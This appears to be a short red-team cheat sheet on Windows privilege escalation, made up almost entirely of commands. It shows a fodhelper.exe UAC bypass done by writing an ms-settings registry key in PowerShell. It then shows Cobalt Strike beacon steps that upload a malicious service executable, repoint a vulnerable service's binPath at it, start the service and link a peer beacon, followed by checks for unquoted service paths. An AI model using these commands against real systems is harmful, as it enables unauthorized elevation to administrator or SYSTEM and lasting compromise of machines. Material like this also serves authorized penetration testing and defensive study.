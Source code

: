 #### UAC Bypass FodHelper Technique

```
PS C:\Users\tonys> New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

PS C:\Users\tonys> New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force

PS C:\Users\tonys> C:\Windows\System32\fodhelper.exe
```

### Privilege Escalation Manual Checks

#### Windows Services

```
beacon> run sc query
[...]

beacon> run sc qc 'Some Service'
[...]

beacon> powershell Get-Service | fl
[...]

beacon> powershell 'Some Service' | Get-ServiceAcl | Select-Object -ExpandProperty Access
[...]

# generate service dll in CS - Attacks > Packages > Windows Executable (Stageless) > Output > Windows Service EXE

# upload
beacon> cd \windows\temp
beacon> upload /root/evil-service.exe

# configure
beacon> shell sc config 'Some Service' binPath= "c:\windows\temp\evil-service.exe"

# start
beacon> run sc start 'Some Service'
[...]

# using peer beacon
beacon> connect localhost 4444
```

#### Unquoted Service Paths

```
# list
beacon> shell wmic service get name, pathname
[...]

# check 
beacon> powershell Get-Acl -Path c:\program files\Super Sql\ | fl
[...]
```
